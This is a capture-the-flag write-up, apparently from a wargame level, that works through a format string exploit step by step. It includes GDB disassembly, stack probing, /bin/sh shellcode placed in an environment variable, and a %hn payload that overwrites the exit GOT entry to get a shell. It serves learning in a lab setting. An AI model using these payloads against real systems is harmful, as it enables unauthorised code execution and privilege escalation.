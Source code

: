 
# Level05 - Exploiting Format String Vulnerability to Execute Shellcode

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level05
coucou
coucou
```

The program prompts for input twice.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program uses `fgets()` to read input into a buffer of 100 characters, converts the input to lowercase, and finally calls `printf()` with the buffer as an argument:

```assembly
0x08048500 <+188>: lea    eax,[esp+0x28]   ; buffer
0x08048504 <+192>: mov    DWORD PTR [esp],eax
0x08048507 <+195>: call   0x8048340 <printf@plt>
```

This setup introduces a format string vulnerability.

## Step 3: Exploiting the Format String

Test the vulnerability by printing stack values:

```bash
$ python -c 'print "BBBB" + "-%x" * 12' | ./level05
bbbb-64-f7fcfac0-f7ec3af9-ffffd5ff-ffffd5fe-0-ffffffff-ffffd684-f7fdb000-62626262-2d78252d-252d7825
```

Our input appears at the 10th position on the stack.

## Step 4: Injecting Shellcode

To exploit this, store shellcode in an environment variable and inject it at the 10th position using the format string.

### Shellcode

Use the following shellcode:

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

### Find the Address of the Payload

Store the shellcode in an environment variable:

```bash
$ env -i PAYLOAD=$(python -c 'print "\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb level05
(gdb) x/200s environ
```

### Locate the Environment Variable Address

Identify the address of the nopesled to jump to, e.g., `0xffffdc59`.

## Step 5: Overwriting the GOT Entry

We need to overwrite a GOT entry. Since the program ends with `exit()`, we can overwrite it:

```assembly
0x0804850c <+200>: mov    DWORD PTR [esp],0x0
0x08048513 <+207>: call   0x8048370 <exit@plt>
```

The GOT address of `exit` is `0x80497e0`.

### Building the Exploit

Split the address `0xffffdc59` into two writes for the GOT:

1. First part: `dc59` (56409 - 8 bytes for addresses).
2. Second part: `ffff` (65535 - remaining characters).

Construct the payload:

```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn"'
```

## Step 6: Running the Exploit

Run the exploit with the environment variable:

```bash
$ (python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn")'; cat) | env -i PAYLOAD=$(python -c 'print("\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
whoami
level06
```

## Summary

- The program has a format string vulnerability that allows arbitrary memory writes.
- By injecting shellcode into an environment variable and using the format string, we can hijack execution.
- Overwriting the GOT entry for `exit` with the shellcode address enables us to execute arbitrary code.

This demonstrates how format string vulnerabilities can lead to full code execution if properly exploited.

